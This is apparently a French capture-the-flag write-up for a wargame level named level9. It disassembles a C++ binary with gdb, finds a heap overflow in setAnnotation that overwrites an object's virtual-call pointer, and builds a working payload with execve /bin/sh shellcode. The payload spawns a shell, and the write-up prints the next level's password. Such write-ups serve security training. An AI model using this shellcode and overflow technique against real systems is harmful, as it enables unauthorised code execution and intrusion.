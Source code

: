 # Level9

On observe un executable a la racine `level9`

```bash
$ ./level9

$ ./level9 "Hello World"

$ ./level9 `python -c 'print "A"*200'`
Segmentation fault (core dumped)
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level9 -q
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:      push   ebp
   0x080485f5 <+1>:      mov    ebp,esp
   0x080485f7 <+3>:      push   ebx
   0x080485f8 <+4>:      and    esp,0xfffffff0
   0x080485fb <+7>:      sub    esp,0x20
   0x080485fe <+10>:     cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:     jg     0x8048610 <main+28>
   0x08048604 <+16>:     mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:     call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:     mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:     call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:     mov    ebx,eax
   0x0804861e <+42>:     mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>:     mov    DWORD PTR [esp],ebx
   0x08048629 <+53>:     call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:     mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>:     mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>:     call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:     mov    ebx,eax
   0x08048640 <+76>:     mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>:     mov    DWORD PTR [esp],ebx
   0x0804864b <+87>:     call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:     mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>:     mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>:    mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>:    mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>:    mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>:    add    eax,0x4
   0x0804866a <+118>:    mov    eax,DWORD PTR [eax]
   0x0804866c <+120>:    mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>:    mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>:    mov    DWORD PTR [esp],eax
   0x08048677 <+131>:    call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:    mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:    mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:    mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:    mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:    mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:    mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:    mov    DWORD PTR [esp],eax
   0x08048693 <+159>:    call   edx
   0x08048695 <+161>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:    leave
   0x08048699 <+165>:    ret
End of assembler dump.
(gdb) disas _ZN1NC2Ei
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:     push   ebp
   0x080486f7 <+1>:     mov    ebp,esp
   0x080486f9 <+3>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486fc <+6>:     mov    DWORD PTR [eax],0x8048848
   0x08048702 <+12>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048705 <+15>:    mov    edx,DWORD PTR [ebp+0xc]
   0x08048708 <+18>:    mov    DWORD PTR [eax+0x68],edx
   0x0804870b <+21>:    pop    ebp
   0x0804870c <+22>:    ret
End of assembler dump.
(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   ebp
   0x0804870f <+1>:     mov    ebp,esp
   0x08048711 <+3>:     sub    esp,0x18
   0x08048714 <+6>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:     mov    DWORD PTR [esp],eax
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:    add    edx,0x4
   0x08048725 <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:    mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:    mov    DWORD PTR [esp],edx
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:    leave
   0x08048739 <+43>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level9`

```bash
$ scp -P 4242 -r level9@192.168.56.102:/home/user/level9/level9 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level9
```

_resultat sauvegarde dans [source.md](source.md)_

```bash
$ ./level9 `python -c 'print "A"*108'`

$ ./level9 `python -c 'print "A"*109'`
Segmentation fault (core dumped)
```

Nous avons assez de place pour mettre un `shellcode`.
Nous partons dans cette direction dans un premier temps.

Nous commencons par regarder ou sont stocke les deux objects cree

```gdb
(gdb) break *main+40
Breakpoint 1 at 0x804861c
(gdb) break *main+74
Breakpoint 2 at 0x804863e
(gdb) run `python -c 'print "\x90"*108'`
Starting program: /home/user/level9/level9 `python -c 'print "\x90"*108'`

Breakpoint 1, 0x0804861c in main ()
(gdb) i r eax
eax            0x804a008    134520840
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
(gdb) i r eax
eax            0x804a078    134520952
```

Entre les deux adresse, nous avons: <code>0x804a078 - 0x804a008 = 70<sub>16</sub> = 112<sub>10</sub></code> octets a notre disposition. De plus, nous pouvons constater que eax est dereference 2 fois

```bash
   0x0804867c <+136>:    mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:    mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:    mov    edx,DWORD PTR [eax]
```

Notre parametre aura la forme: `python -c 'print "StartAddr+0x4" + "StartAddr+0x8" + "\x90"*I + "shellcode" + "StartAddr"`

On peut deja remplacer `StartAddr` puis retirer StartAddr de `112 octets`, cela nous donne:

`python -c 'print "\x90"*108 + "\x0c\xa0\x04\x08"`

puis remplacer `StartAddr+0x4` et `StartAddr+0x8`.

`python -c 'print "\x10\xa0\x04\x08\x14\xa0\x04\x08" + "\x90"*100 + "\x0c\xa0\x04\x08"'`

il nous reste `100 octets` de disponible, plus qu'a mettre le shellcode et on essaye

```shell
level9:$ ./level9 `python -c 'print "\x10\xa0\x04\x08\x14\xa0\x04\x08" + "\x90"*55 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x0c\xa0\x04\x08"'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
Ctrl+D

level9:$ su bonus0
Password:

bonus0:$
```

